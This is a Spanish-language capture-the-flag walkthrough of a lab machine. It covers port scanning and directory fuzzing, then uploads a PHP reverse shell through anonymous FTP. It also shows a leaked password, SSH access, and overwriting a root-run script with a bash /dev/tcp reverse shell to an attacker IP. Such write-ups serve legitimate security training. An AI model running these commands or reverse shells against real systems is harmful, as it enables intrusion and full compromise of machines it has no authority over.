


# Start Up

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.218.21 -oG allports
nmap -sC -sV -p 21,22,80 -Pn -n 10.10.218.21 -oN targeted
```


## FTP

Entramos con usuario **anonymous** y descargamos todo lo que hay.


En el caso del directorio ftp no hay nada pero si vemos los permisos de la carpeta tenemos permiso de escritura y lecutra.


## 80

En la página web no vemos algo útil, así que buscaremos que carpetas puede tener con wfuzz.

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u 'http://10.10.218.21/FUZZ'
```



Vemos una carpeta files, esta carpeta no hay nada pero parece ser la misma que la de la carpeta FTP que vimos con anterioridad. Entonces colocaremos una reverse shell con php en esta carpeta.

En parrot tenemos varias reverse shell por ejemplo podemos usar esta copiandola con el comando:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Modificamos un poco el archivo para colocar la ip del atacante y cambiar la shell para una bash.

```php
...
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.13.13.243';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
...
```

Ahora subimos el archivo usando el servicio ftp en la carpeta ftp.


Esto debería reflejarse en la carpeta del sitio web en la ruta `/files/ftp`


## Reverse shell

Ahora para conectarnos deberemos estar a la escucha con netcat 

```bash
nc -lvp 4444
```
Y entramos al enlace de **shell.php**


## User flag

Aquí encontramos la receta secreta y un archivo sospechozo llamado `suspicious.pcapng`, esto podemos descargarlo copiandolo en la carpeta files.


En el archivo si lo imprimimos con la función strings para que solo podamos ver caracteres ascii podremos leerlo sin caracteres extraños.


Así encontramos la contraseña **c4ntg3t3n0ughsp1c3** del otro usuario. Vemos que también nombra a un usuario **lennie**.

Podemos conectarnos por ssh.

```bash
ssh lennie@10.10.129.101
```

## Privilege Scalation

Dentro de la carpeta home de lennie encontramos una carpeta scripts con unos cuantos códigos en bash que llaman a el archivo de ruta `/etc/print.sh`, el cual tenemos permisos de escritura


Usaremos pspy para monitorear lo que hace el sistema. Podemos subir este archivo montando un servidor http en nuestro equipo y descargar el archivo pspy con wget desde la maquina victima.

```shell
# Iniciar el servidor http en tu equipo
sudo python3 -m http.server 80

# Descargar el archivo pspy desde la maquina victima
wget http://tuip/pspy32s

# Ejecutar pspy
chmod +x pspy32s
./pspy32s
```

Vemos que se esta ejecutando el archivo **planner.sh** repetidamente.


Ya que tenemos permisos de escritura sobre un archivo que ejecuta planer.sh y segun pspy es ejecutado con un UID=0 por lo que quien lo ejecuta será el mismo root.

Ahora para lograr escalar privilegios necesitamos modificar el archivo **print.sh** que vimos antes para que ejecute una shell reversa.

**print.sh**
```shell
#!/bin/bash
bash -i >& /dev/tcp/10.13.13.243/4444 0>&1
```

Esperamos con netcat en el puerto 4444

```shell
nc -lvp 4444
```

